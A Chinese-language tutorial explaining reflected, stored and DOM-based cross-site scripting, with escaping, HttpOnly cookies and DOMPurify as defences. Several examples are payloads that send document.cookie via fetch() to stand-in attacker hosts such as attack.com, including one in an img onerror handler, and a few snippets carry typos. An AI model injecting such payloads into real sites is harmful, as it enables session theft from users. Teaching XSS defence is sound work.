 [toc]

# XSS 攻击

## 1. 前言

XSS (Corss Site Scripting)也即跨站脚本攻击，攻击出现的原因一般是因为 Web 程序对用于的输入过滤不足导致的一种漏洞，攻击者可以把恶意的脚本代码注入到网页之中，当其他用户浏览时就会执行其中的恶意代码，对受害者产生各种攻击。XSS 一般分为三种类型：

反射型，存储型，DOM型

## 2. 反射型(url)

反射型 XSS 攻击的恶意脚本并没有被存储到后端数据库中，而是诱导用户点击某个精心拼接的恶意链接，从而达到攻击的目的。

举个例子：

```js
// 当用户在搜索时，比如
http://www.xxx.com/music?name='青花瓷'
```

后端假设返回搜索的name，而这时候攻击者在 url 后面拼接一个恶意的script，如 alert(1);

```js
http://www.xxx.com/music?name='青花瓷'<script>alert(1)</script>
```

又假如拼接的是一个 documen.cookie呢？然后将这个cookie发到它自己的电脑上，cookie就被盗取了

```js
http://www.xxx.com/music?name='青花瓷'<script>fetch(`http://恶意者的网站.com/>cookie=${document.cooki}`)</script>
```

造成反射型 XSS 攻击的原因是服务端没有过滤scritp， 所以解决方案很简单，在服务器对用户的输入进行过滤，过滤方案很多。

一种方式是对用户输入进行 encode，比如：

```js
encodeURIComponent(req.query.name);
```

第二种方式就是替换掉特殊字符，比如 `<` `&` 等，只要替换掉，自然就不会解析了

```js
function replaceSpecialSymbol(str) {
  return str
    .replace(/&/g, '&amp;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&apos;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;');
}
```

另外，如果后端登录验证是基于 cookie的话，最好将其设置为 HttpOnly,这样攻击者就无法利用 JS 脚本在前端获取到 Cookie了

## 3. 存储型（表单）

与反射型不同，存储型 XSS 攻击是指当用户的输入包含了恶意脚本，服务端未经过转义就存储到数据库，访问页面会触发恶意脚本执行，而导致的攻击。

假如在某网站上有一篇爆款文章：`https://xxx.com/articles/1`

攻击者在文章下面发表了一篇评论，内容中包含了 script 脚本：

```bash
文章写的真棒！<script>fetch(`http://attack.com/cookies?cookie=${document.cookie}`)</script>
```

如果服务端直接把评论字符串保存到数据库了，下次只要有用户访问该文章时，包含恶意脚本的评论内容被返回，把当前用户的 cookie 发送到攻击者的服务器！

可以看到，用户的 Cookie 马上被发送到了攻击者的服务器。其实这种获取 Cookie 的方式还算小打小闹了，只要能够利用 xss 注入 script，黑客真的是可以「为所欲为」，例如黑客通过操作 DOM 的方式，分分钟把你的网站变成赌博网站、色情网站...，

可以看到，存储型 XSS 也是因为恶意代码未经转义直接被插入到响应的 HTML 里的，然后被浏览器执行导致攻击，所以解决方案也是对用户输入进行过滤，过滤方案与上面讲的反射型一致。

## 4. DOM型（onerror）

DOM 型 XSS 与反射型或存储型 XSS 的区别在于，DOM 型在服务器返回的网页或脚本中是看不到恶意代码的，而是在更新 DOM 树的时候触发了恶意脚本的执行。

我们来看一则模拟案例，前端开发人员未经过滤就直接把用户输入插入到 HTML 中：

```html
<input id="input" type="text" />
<button onclick="container.innerHTML = input.value">点击</button>
<p id="container"></p>
```

试想一下，如果此时用户输入了下面一段恶意脚本的话会发生什么？

```bash
<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

值得庆幸的是，大部分现代浏览器都实现了 HTML5 的 [安全规范](https://developer.mozilla.org/zh-CN/docs/Web/API/Element/innerHTML)

但是这就足够安全了吗？非也，请看下面的输入：

```html
<img src="x" onerror="fetch(`http://attack.com/cookies?cookie=${document.cookie}`)" />
```

恶意脚本依然在 onerror 回调中被触发了！

## 5. 防御方案

这里推荐使用 [DOMPurify](https://github.com/cure53/DOMPurify) 库对用户的输入进行过滤，然后再使用 innerHTML 插入到 DOM 中。
